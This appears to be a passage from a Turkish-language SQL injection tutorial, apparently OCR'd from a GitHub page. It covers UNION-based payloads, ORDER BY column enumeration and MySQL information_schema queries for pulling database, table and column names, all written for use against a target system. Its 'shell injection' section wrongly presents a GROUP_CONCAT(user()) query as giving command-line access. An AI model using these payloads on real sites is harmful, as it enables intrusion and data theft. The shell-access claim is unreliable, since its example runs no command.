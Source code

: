 3️⃣ Advanced UNION-based SQL Injection
UNION-based SQL enjeksiyonu, genellikle sayfalarda belirli veritabanı bilgilerini sızdırmak için kullanılır. Bu yöntem, sonuçları birleştiren SQL UNION komutunu kullanarak veritabanı adını döndürebilir.
Örnek:
```sql
sql
' UNION SELECT database(), NULL, NULL-- -
```
Eğer sistemde birden fazla sütun varsa, bu sorgu veritabanı adını gösterir ve diğer sütunlar NULL olur. Bu tür saldırılarda sütun sayısını anlamak için aşağıdaki sorguları deneyebilirsin:
```sql
sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -

```
Bu şekilde her sütun sayısını artan sırayla kontrol edebilirsin. Hangi sorgunun hata vereceği, sistemdeki toplam sütun sayısını belirtir. Sonrasında doğru sütunu tespit ederek veritabanı adını alabilirsin.

4️⃣ MySQL Metadata Enjeksiyonu (İçsel Veritabanı Bilgisi)
Eğer hedef veritabanı MySQL kullanıyorsa, daha fazla bilgi edinmek için veritabanı metadata'larını (şematik yapılar, tablolara dair bilgiler) sorgulayabilirsin.
Veritabanı Adını Öğrenmek için:
```sql
sql
SELECT schema_name FROM information_schema.schemata;
```
Veritabanındaki Tablo Adlarını Öğrenmek için:
```sql
sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'test_db';
```
Bu sorgu, 'test_db' veritabanındaki tüm tablo adlarını döndürecektir.
Veritabanındaki Tablolardaki Kolonları Öğrenmek için:
```sql
sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';

```
5️⃣ SQL Injection ile Sisteme Komut İstemcisi Ekleme (Shell Injection)
Birçok zaman, SQL injection ile elde edilen verilerle sadece veritabanı adı veya tablo yapısını almak değil, sistem komutlarına erişim sağlamak da mümkündür. Eğer hedef sistemde komut satırı erişimi varsa, SQLi ile shell komutları çalıştırılabilir.
Linux Komutları ile Erişim Sağlamak:
```sql
sql
' UNION SELECT 1,2,3,4, GROUP_CONCAT(user()) FROM information_schema.tables--
```
Bu şekilde komut satırına geçerek, uzaktaki sunucuya erişim sağlayabilir, komutlar çalıştırabilirsin.
